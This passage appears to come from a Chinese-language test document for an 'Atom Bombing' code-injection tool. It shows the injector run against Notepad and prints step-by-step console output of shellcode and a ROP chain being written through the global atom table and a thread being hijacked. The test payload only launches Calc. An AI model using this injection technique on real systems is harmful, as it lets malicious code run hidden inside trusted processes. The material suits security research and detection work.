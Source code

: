 **输出文件**：
- `build/atom_bombing.exe` - 注入器（x64版本）

---

### 测试 1: Calc Shellcode 注入

**目的**: 验证 Atom Bombing 基本功能

**启动目标进程**:
```bash
$ notepad.exe &
$ tasklist | grep -i "notepad.exe"
Notepad.exe                  46604 Console                   13    113,680 K
```

**执行注入**:
```bash
$ ./build/atom_bombing.exe Notepad.exe

========================================
  Atom Bombing
  全局 Atom 表代码注入
========================================

[*] 查找进程: Notepad.exe
[+] 找到进程: PID = 46604

[*] 步骤 1: 打开目标进程 (PID: 46604)
[*] 步骤 2: 枚举进程线程
[+] 找到 98 个线程，选择第一个线程

[*] 步骤 3: 查找代码洞
[+] 代码洞地址: 0x00007FFB3DE6E000

[*] 步骤 4: 构建 ROP 链
[*] 步骤 5: 使用 Atom 表写入 Shellcode
[*] 使用 Atom 表写入 194 字节到 0x00007FFB3DE6E050
[+] 已写入 194/194 字节

[*] 步骤 6: 使用 Atom 表写入 ROP 链
[*] 使用 Atom 表写入 80 字节到 0x00007FFB3DE6E000
[+] 已写入 80/80 字节

[*] 步骤 7: 劫持线程执行 ROP 链
[*] 原始 RIP: 0x7FFB3E041324
[*] 新 RIP: 0x7FFB404C3520 (NtAllocateVirtualMemory)
[*] 新 RSP: 0x7FFB3DE6E000 (ROP 链)

[+] Atom Bombing 注入成功！
[*] Shellcode 将在线程恢复后执行

[+] 完成！
```
